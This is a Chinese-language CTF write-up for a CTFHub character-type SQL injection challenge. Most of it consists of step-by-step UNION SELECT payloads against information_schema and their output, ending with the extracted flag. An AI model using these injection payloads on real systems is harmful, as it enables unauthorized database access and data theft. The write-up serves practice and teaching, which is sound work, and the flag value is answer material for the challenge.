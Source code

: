 # CTFHUB_字符型注入

## 题目内容

![image-20210822202354594](/home/adian/note/Study_Note/网络安全/CTF/pic/15.png)

## WriteUp
和整数型相似，只需要闭合单引号或双引号，注释后面的语句

首先使用单引号使其报错

```
http://challenge-91a8cfbee86c0272.sandbox.ctfhub.com:10800/?id=1'
```

报错，并能通过给出的sql语句判断存在sql注入漏洞

下一步我们查询字段数量

```
1' order by 2 --+
```

在order by 3的时候，报错，证明有两个字段，然后我们查询当前数据库

```
1' union select 1,database() --+
```

结果还是显示ctfhub，这个时候我们需要给参数1前面加上`-`使其报错

```
-1' union select 1,database() --+
```

得到数据库名sqli

```
select * from news where id='-1' union select 1,database() -- '
ID: 1
Data: sqli
```

然后我们使用information_schema来获取sqli数据库下的表名

```
-1' union select 1,group_concat(table_name) from information_schema.tables where table_schema='sqli' --+
```

得到表名为news和flag

```
select * from news where id='-1' union select 1,group_concat(table_name) from information_schema.tables where table_schema='sqli' --+
ID: 1
Data: news,flag
```

我们猜解flag表的字段

```
1' union select 1,group_concat(column_name) from information_schema.columns where table_name='flag' --+
```

得到如下结果

```
select * from news where id='-1' union select 1,group_concat(column_name) from information_schema.columns where table_name='flag' --+
ID: 1
Data: flag
```

得到信息，在flag表下有flag字段，我们查询他

```
-1' union select 1,flag from flag --+
```

得到结果

```
select * from news where id='-1' union select 1,flag from flag -- '
ID: 1
Data: ctfhub{6d76653cb113fa6bbaa5683a}
```

